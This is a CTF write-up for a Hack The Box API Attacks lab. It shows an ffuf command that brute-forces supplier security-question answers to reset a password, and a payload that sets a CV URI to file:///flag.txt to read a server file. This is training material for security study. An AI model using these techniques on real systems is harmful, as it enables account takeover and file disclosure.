



# HACK THE BOX MODULE - API ATTACKS - *Skills Assessment*
| CTF Write-up

## Scenario
After reporting all vulnerabilities in versions v0 and v1 of Inlanefreight E-Commerce Marketplace, the admin attempted to patch all of them in v2:



However, new junior developers have implemented additional functionalities in v2, and the admin is concerned that they may have introduced new vulnerabilities. Assess the security of the new web API version and apply everything you have learned throughout the module to compromise it.

## Target:
**Inlanefreight E-Commerce Marketplace APIs**: 94.237.120.119:33862

## Challenge:
- Authenticate to  with user "htbpentester@hackthebox.com" and password "HTBPentester"

- Submit the contents of the flag at '/flag.txt'.


#### Signin as a customer user using given credentials via
`POST /api/v2/authentication/customers/sign-in` endpoint.

Current-user:
```
{
  "customer": {
    "id": "3d6b5aba-302b-4c50-a90a-088307d0b637",
    "name": "HTBPentester",
    "email": "htbpentester@hackthebox.com",
    "phoneNumber": "+44 9999 999999",
    "birthDate": "1997-06-21"
  }
}
```

#### Check for user's roles via `GET /api/v2/roles/current-user`

```
{
  "roles": [
    "Suppliers_Get",
    "Suppliers_GetAll"
  ]
}
```

- "**Suppliers_Get**": Allows user to use `GET /api/v2/suppliers/{ID}` endpoint to query suppliers' infomation by providing an **ID** formatted as GUID.
- "**Suppliers_GetAll**": Allows user to use `GET /api/v2/suppliers` endpoint to query every suppliers' infomation.

Suppliers' field of infomation:
```
  "suppliers": [
    ...
    {
      "id": "73ff2040-8d86-4932-bd3f-6441d648dcca",
      "companyID": "f9e58492-b594-4d82-a4de-16e4f230fce1",
      "name": "Mason Alexander",
      "email": "M.Alexander1650@globalsolutions.com",
      "securityQuestion": "What is your favorite color?",
      "professionalCVPDFFileURI": "SupplierDidNotUploadYet"
    },
    {
      "id": "5bd1a017-9b6f-45a2-93e5-88e2d9668962",
      "companyID": "f9e58492-b594-4d82-a4de-16e4f230fce1",
      "name": "Lillian Hayes",
      "email": "L.Hayes1698@globalsolutions.com",
      "securityQuestion": "SupplierDidNotProvideYet",
      "professionalCVPDFFileURI": "SupplierDidNotUploadYet"
    },
    ...
  ]
```
=> Confirmed **Broken Object Property Level Authorization (BOPLA)** vulnerability leading to **[Excessive Data Exposure](https://cwe.mitre.org/data/definitions/200.html)**. In this case, not only has the vulnerable endpoint leaked the supplier's name and email but also more sensitive infomation like security question and their CV file URI.

#### Exploring new API endpoints
##### 1. `POST /api/v2/authentication/suppliers/passwords/resets/security-question-answers`
Request body:
```
{
  "SupplierEmail": "string",
  "SecurityQuestionAnswer": "string",
  "NewPassword": "string"
}
```
- Potential Improper Restriction of Excessive Authentication Attempts vulnerability

I decided to test with 2 suppliers that I picked out as examples: One with a security question and the other without. 

1. For the case where the user did not have a security question, I tried providing an emptied answer in the "SecurityQuestionAnswer" field but the response given is still **false**.

2. For the case the user has a security question that is "What is your favorite color?", I tested it with a colors wordlist but the result is still **false**.
But when I take a look closely, there are multiple users that use the same security question and there are only 5 users with the security question. To test for every accounts, I condensed all the emails into an `emails.txt` wordlist.

The command I use:
```
ffuf -u 'http://94.237.120.119:33862/api/v2/authentication/suppliers/passwords/resets/security-question-answers' -X 'POST' -H 'accept: application/json' -H 'Content-Type: application/json' -d '{
  "SupplierEmail": "EMAIL",
  "SecurityQuestionAnswer": "COLOUR",
  "NewPassword": "P@ssword1234"
}' -w colours.txt:COLOUR -w emails.txt:EMAIL  -ic -fr 'false'
```

Result:
```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.120.119:33862/api/v2/authentication/suppliers/passwords/resets/security-question-answers
 :: Wordlist         : COLOUR: /home/kali/Desktop/garbarge/colours.txt
 :: Wordlist         : EMAIL: /home/kali/Desktop/garbarge/emails.txt
 :: Header           : Accept: application/json
 :: Header           : Content-Type: application/json
 :: Data             : {
  "SupplierEmail": "EMAIL",
  "SecurityQuestionAnswer": "COLOUR",
  "NewPassword": "P@ssword1234"
}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: false
________________________________________________

[Status: 200, Size: 22, Words: 1, Lines: 1, Duration: 215ms]
    * COLOUR: rust
    * EMAIL: B.Rogers1535@globalsolutions.com
```
=> I found the security question answer for "B.Rogers1535@globalsolutions.com" account. Now I can use that and change their account's password.

Request body:
```
{
  "SupplierEmail": "B.Rogers1535@globalsolutions.com",
  "SecurityQuestionAnswer": "rust",
  "NewPassword": "P@ssword1234"
}
```
Response:
```
{
  "successStatus": true
}
```


##### 2 `/api/v2/suppliers/current-user/cv`
Using the account I got from the previous step, I can now start testing the new supplier's APIs.

Similarly, I tried to get this user's roles with `GET /a/pi/v2/roles/current-user` but this account seems to have no roles assign to it.

```
{
  "errorMessage": "User does not have any roles assigned"
}
```


Despite the claim, "*File upload attacks have been prevented*", this could still be an oversight from the developer's perspective.

To confirmed the claim, I started by testing the for any File upload to SSRF to LFI vulnerability:

 
First, I tried to upload a test file called `cert.txt` via `POST /api/v2/suppliers/current-user/cv`
and got the response:

```
{
  "errorMessage": "Could not upload the CV, its either malicious or very big in size"
}

```
It seems like the developer has enforced some sort of security filter for uploaded file. But then I noticed another endpoint that is `PATCH /api/v2/suppliers/current-user/cv`:

Request body:   
```
{
  "SecurityQuestion": "string",
  "SecurityQuestionAnswer": "string",
  "ProfessionalCVPDFFileURI": "file://path/to/cv/file",
  "PhoneNumber": "string",
  "Password": "string"
}
```

This potentially could be an oversight by the developer is that that they only prevented malicious but did not fix the root cause for the SSRF bug in API v1. To confirmed it, I tested with this payload:

Payload:
```
{
  "SecurityQuestion": "What is your favorite color?",
  "SecurityQuestionAnswer": "rust",
  "ProfessionalCVPDFFileURI": "file:///flag.txt",
  "PhoneNumber": "string",
  "Password": "P@ssword1234"
}
```
Response:

```
{
  "SuccessStatus": true
}
```

To confirm if it's actually successful, I called `GET /api/v2/suppliers/current-user` and confirmed that it changed.

Response:
```
{
  "supplier": {
    "id": "36f17195-395f-443e-93a4-8ceee81c6106",
    "companyID": "f9e58492-b594-4d82-a4de-16e4f230fce1",
    "name": "Brandon Rogers",
    "email": "B.Rogers1535@globalsolutions.com",
    "securityQuestion": "What is your favorite color?",
    "professionalCVPDFFileURI": "file:///flag.txt"
  }
}
```
Finally, to confirmed the SSRF to LFI bug, I called `GET /api/v2/suppliers/current-user/cv` and got a response:

Response:
```
{
  "successStatus": true,
  "base64Data": "SFRCe2ZsYWd9Cg=="
}
```

Decode that base 64 data I got the flag: `HTB{flag}`.


=> Confirmed developer's oversight at a "SSRF to LFI" but at `/api/v2/suppliers/current-user/cv`. 

## Attachments
- [Emails wordlist](wordlists/emails.txt)
- [Colours wordlist](wordlists/colours.txt)
## References
- [API3:2023 Broken Object Property Level Authorization](https://owasp.org/API-Security/editions/2023/en/0xa3-broken-object-property-level-authorization/)
- [CWE-918: Server-Side Request Forgery (SSRF)](https://cwe.mitre.org/data/definitions/918.html)
- [CWE-73: External Control of File Name or Path](https://cwe.mitre.org/data/definitions/73.html)
- [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html)
  
## Postscript:
Hi to whoever is reading this write-up and even bother to read this far in(what's wrong with you?). If you aren't aware, this is my second attempt at writing a CTF write-up and it's not perfect by any means but compare to the first one, I'd say it's 10 times better and I, for once, can feel proud of something I've done. That's pretty much it, thank you for reading and I wish you a successful exam in the future, whether it be CWES, CPTS or anything! 